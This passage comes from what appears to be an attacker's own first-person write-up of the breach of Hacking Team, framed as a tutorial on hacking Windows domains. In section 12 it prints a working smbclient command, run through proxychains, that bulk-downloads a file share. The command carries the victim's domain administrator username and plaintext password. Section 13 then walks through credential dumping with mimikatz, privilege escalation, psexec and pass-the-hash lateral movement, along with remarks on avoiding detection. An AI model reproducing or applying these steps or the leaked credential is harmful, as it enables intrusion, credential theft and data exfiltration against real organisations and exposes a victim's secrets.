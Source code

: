 [1] http://www.stevieg.org/2010/07/using-the-exchange-2010-sp1-mailbox-export-features-for-mass-exports-to-pst/


## --[ 12 - Downloading Files ]----------------------------------------------------

Now that I'd gotten Domain Admin, I started to download file shares using my
proxy and the -Tc option of smbclient, for example:

proxychains smbclient '//192.168.1.230/FAE DiskStation' \
    -U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'

I downloaded the Amministrazione, FAE DiskStation, and FileServer folders in
the torrent like that.


## --[ 13 - Introduction to hacking windows domains ]------------------------------

Before continuing with the story of the "weones culiaos" (Hacking Team), I
should give some general knowledge for hacking windows networks.


### ----[ 13.1 - Lateral Movement ]-------------------------------------------------

I'll give a brief review of the different techniques for spreading withing a
windows network. The techniques for remote execution require the password or
hash of a local admin on the target. By far, the most common way of obtaining
those credentials is using mimikatz [1], especially sekurlsa::logonpasswords
and sekurlsa::msv, on the computers where you already have admin access. The
techniques for "in place" movement also require administrative privileges
(except for runas). The most important tools for privilege escalation are
PowerUp [2], and bypassuac [3].

[1] https://adsecurity.org/?page_id=1821
[2] https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
[3] https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Invoke-BypassUAC.ps1


Remote Movement:

1) psexec

   The tried and true method for lateral movement on windows. You can use
   psexec [1], winexe [2], metasploit's psexec_psh [3], Powershell Empire's
   invoke_psexec [4], or the builtin windows command "sc" [5]. For the
   metasploit module, powershell empire, and pth-winexe [6], you just need the
   hash, not the password. It's the most universal method (it works on any
   windows computer with port 445 open), but it's also the least stealthy.
   Event type 7045 "Service Control Manager" will appear in the event logs. In
   my experience, no one has ever noticed during a hack, but it helps the
   investigators piece together what the hacker did afterwards.
